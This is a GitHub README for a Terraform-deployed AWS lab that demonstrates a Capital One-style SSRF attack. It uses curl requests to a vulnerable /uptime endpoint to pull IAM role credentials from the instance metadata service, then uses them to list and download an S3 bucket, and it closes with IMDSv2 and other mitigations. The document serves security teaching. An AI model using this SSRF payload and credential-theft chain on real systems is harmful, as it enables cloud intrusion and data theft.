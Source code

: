 # SSRF vulnerability demo
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)![Terraform](https://img.shields.io/badge/terraform-%235835CC.svg?style=for-the-badge&logo=terraform&logoColor=white)

## Demo diagram 
![Diagram](/images/diagram.jpg)

## Purpose
Demonstrate a Server Side Request Forgery (SSRF) attack in the AWS environment which results in data rertviing from s3, similar to the [CapitalOne breach](https://www.capitalone.com/digital/facts2019/).
The environment will be deployed with Terraform IaC module.



## Prerequisites
* Active AWS account.
* AWS IAM user with AWS credential type: ["Access key - Programmatic access"](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) and [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

*  [Terraform installed](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* Clone this repo to the environment which you run terraform from : 
```ShellSession
git clone https://github.com/ramibo/ssrf_aws_demo.git 
```
* [create a key pair ( the public key will be auto imported later to Amazon EC2 by terrafom ).](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/create-key-pairs.html)

* In the following files , set the parameters with your own values  :</br></br>__terraform.tfvars__:</br> `availability_zone` , `key_name`,`public_key`</br></br>__providers.tf__ :</br> `shared_config_files`,`shared_credentials_files`, `profile` , `region`



## Running the demo

1. `cd` to the  `ssrf_aws_demo` directory.

2. Run `terraform init` command to prepare your working directory for the next commands.

3. Run `terraform validate` command to check whether the configuration is valid.

4. Run `terraform plan` command to show the changes required by the current configuration.

5. Run `terraform apply` / `terraform apply -auto-approve` to create/update the infrastructure at AWS.

6. If there are no errors from the previous steps , from your terminal, run the following:
<br>__Important__<br> - The `host` can be the created ec2 instance [Public IPv4 address / DNS ](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-instance-addressing.html#concepts-public-addresses).<br>- In the next steps `bash$` prompt with `"command"` is for commands you need to run.

```ShellSession
bash$ curl -s http://host:5000 
AWS SSRF IMDSv1 demo
```

7. The `/uptime` page is vulnerable to an SSRF attack: 
We will utilize the URL parameter with the instance metadata URI --> retrieve the attached IAM role --> extract the security credentials as follows: 
```ShellSession
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssrf_demo_iam_role
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-20T20:56:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIASF",
  "SecretAccessKey" : "Id+zUu",
  "Token" : "IQoJb3JpZ2luX2VjEEUaCXVzLW",
  "Expiration" : "2022-12-21T03:31:14Z"
}
```

8. From the attached role security credentials output you got in your environment,  copy the values of : 
`AccessKeyId` 
`SecretAccessKey` 
`Token`

9. With AWS CLI - configure a new `aws_ssrf_demo_profile_s3` profile:
```ShellSession
aws configure --profile aws_ssrf_demo_profile_s3
```

10. Set the following parameters in your `"$HOME/.aws/credentials"` file with the value copied at step 8:
For example,
```ShellSession
[aws_ssrf_demo_profile_s3]
aws_access_key_id = ASIASF
aws_secret_access_key = Id+zUu
aws_session_token=IQoJb3JpZ2luX2VjEEUaCXVzLW
```

11. Get the data from s3  :
```ShellSession
# Get the list of s3 buckets
bash$ aws s3 ls --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:47 aws-ssrf-demo-s3-bucket

# Get the bucket content
bash$ aws s3 ls aws-ssrf-demo-s3-bucket --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:48        403 aws_ssrf_demo_data_file.json

# Create a directory
bash$ mkdir data_from_s3
bash$ cd data_from_s3/
bash$ ls -l
total 0

# Retrive the JSON file from the bucket
bash$ aws s3 cp s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json /$HOME/data_from_s3/ --profile aws_ssrf_demo_profile_s3 
download: s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json to ./aws_ssrf_demo_data_file.json

bash$ ls -l
total 8
-rw-r--r--  1 user  group  403 Dec 20 22:55 aws_ssrf_demo_data_file.json


!!! The SSRF attack was successful!!!
```

12. Run `terraform destroy` / `terraform destroy -auto-approve` to remove the infrastructure created at AWS.
## Mitigation Steps



1. Enabling IMDSv2 : 
This step enforces requests to use a session token (applied in aws-ec2-metadata-token header ) that can only be used directly from the EC2 instance where that session began. 
This step is the first that should be taken as the IMDSv2 service acts as a parallel layer to any application or web app firewall (WAF) vulnerblity / misconfiugration which we might not be aware of yet. 
In addtion , the effort to apply it is lower ( updated AWS SDKs and CLIs) compared to the next options. 
For our case (before `terraform destroy` ) run :


```ShellSession
aws ec2 modify-instance-metadata-options \
    --instance-id i-1234567898abcdef0 \
    --http-tokens required \
    --http-endpoint enabled
```

For example
```ShellSession
bash$ curl -s http://host:5000
AWS SSRF IMDSv1 demo

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role 

bash$ aws ec2 modify-instance-metadata-options --instance-id i-00d044e5f852fd277 --http-tokens required --http-endpoint enabled --profile aws_ssrf_demo_profile

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>401 - Unauthorized</title>
 </head>
 <body>
  <h1>401 - Unauthorized</h1>
 </body>
</html>

```
[More details on how to configure the instance metadata options](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html).

2. Fix the application  ruuning in the ec2 instance by adding validation all client-supplied input data.
For example

3. Reduce permissions in the IAM role

## Refrences
* [FreeCodeCamp - Learn Terraform (and AWS) by Building a Dev Environment – Full Course for Beginners](https://www.youtube.com/watch?v=iRaai1IBlB0)
* [An SSRF, privileged AWS keys and the Capital One breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [How to hack AWS instances that have the metadata service (IMDSv1) enabled](https://alexanderhose.com/how-to-hack-aws-instances-with-the-metadata-service-enabled/)

* https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/